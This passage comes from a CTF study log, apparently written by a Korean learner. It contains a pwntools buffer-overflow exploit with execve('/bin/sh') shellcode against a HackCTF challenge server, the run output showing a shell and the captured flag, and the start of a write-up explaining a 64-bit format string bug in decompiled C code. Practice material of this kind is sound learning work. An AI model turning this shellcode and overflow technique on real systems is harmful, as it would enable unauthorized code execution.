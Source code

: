 ```python
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3006)

shell_code = "\x31\xC9\x8D\x41\x0B\x99\x68\x2F\x73\x68\x00\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80"

payload = "a"
p.sendlineafter("Data : ", payload)

buf_addr = int(p.recvline()[0:10], 16)
log.info("buf addr : {}".format(hex(buf_addr)))

p.sendlineafter("Again (y/n): ", "Y")

payload = shell_code
payload += "a" * (140 - len(shell_code)) # buffer + sfp + shellcode_length
payload += p32(buf_addr)

p.sendlineafter("Data : ", payload)
p.interactive()
```

```
pocas@pocas-VirtualBox:~/pwn/HackCTF$ python simple_overflow_ver2.py 
[+] Opening connection to ctf.j0n9hyun.xyz on port 3006: Done
[*] buf addr : 0xffe73ef0
[*] Switching to interactive mode
0xffe73ef0:  1 � \x8d A \x0b\x99 h / s h
Again (y/n): $ cat flag
$ cat  flag
HackCTF{y0u_d1d_7h3_45516nm3n7_5ucc355fully!}
$  
```

> FLAG : HackCTF{y0u_d1d_7h3_45516nm3n7_5ucc355fully!}

---
## PWN D+6 (2021.02.01)<br>

---
HackCTF Challenge : You are silver

이번 문제는 64 bit FSB 취약점을 이용한 문제를 가져왔습니다. 64 bit는 32 bit와 다르게 레지스터를 출력 후에 스택 정보를 출력해줍니다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-30h]
  int v5; // [rsp+28h] [rbp-8h]
  int v6; // [rsp+2Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v6 = 50;
  puts("Please enter your name");
  fgets(&s, 46, stdin);
  printf(&s, 46LL);
  v5 = get_tier(v6);
  printf((const char *)v5);
  return 0;
}
```
코드를 보면 fgets 함수를 이용해서 46 바이트만큼 s에 입력해주고, printf 함수를 이용해서 출력해주고 있습니다. 하지만 여기서 포맷스트링이 정의되어 있지 않아 FSB 취약점이 발생합니다. 그 후에 get_tier 함수의 반환 값을 v5에 넣고, v5를 출력하는 것을 볼 수 있습니다.<br>
